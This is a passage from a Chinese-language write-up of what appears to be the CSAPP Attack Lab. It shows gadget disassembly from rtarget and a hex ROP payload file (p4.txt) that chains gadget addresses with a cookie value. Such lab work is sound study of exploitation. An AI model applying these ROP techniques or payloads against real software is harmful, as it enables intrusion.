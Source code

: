 
所以我们类似地，在 `rtarget.s` 中检索一些 `nop` 指令以对齐，我选择的是 `20 c0` ，直接检索找到

```asm
000000000040223c <setval_254>:
  40223c:	f3 0f 1e fa          	endbr64
  402240:	c7 07 c9 ca 20 c0    	movl   $0xc020cac9,(%rdi)
  402246:	c3                   	ret
```

事实上直到行文至此，我才彻底找到了之前没能成功在 farm 中找到想要的 gadget 的原因：**直接编译 `farm.c` 再反编译出来的字节码和直接反编译 `rtarget.c` 得到的的不一样！！！**

![Cleanshot-2023-10-18-at-12.00.02@2x](./README.assets/Cleanshot-2023-10-18-at-12.00.02@2x.png)

不过已经到这里了，那就先不修改了，反正我幸运地找到了一个固定地址的 gadget~

修改 `p4.txt` 如下，加入第 6 行即可

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
13 39 40 00 00 00 00 00
10 76 a6 11 00 00 00 00
44 22 40 00 00 00 00 00
a8 1e 40 00 00 00 00 00
```
